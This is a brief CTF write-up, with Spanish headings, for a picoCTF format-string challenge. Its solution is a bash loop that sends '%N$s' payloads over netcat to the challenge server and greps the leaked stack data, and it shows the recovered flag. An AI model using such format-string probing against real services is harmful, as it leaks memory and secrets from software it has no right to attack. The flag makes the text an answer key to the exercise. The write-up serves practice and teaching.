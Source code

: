 ## Objetivo


Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using: `nc saturn.picoctf.net 62996`
## Datos de Acceso al Nivel

`nc saturn.picoctf.net 62996`
## Solucion

```
┌──(kali㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 62996 | grep -Ei (pico|ctf); done 
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}

```

## Notas Adicionales



## Referencias

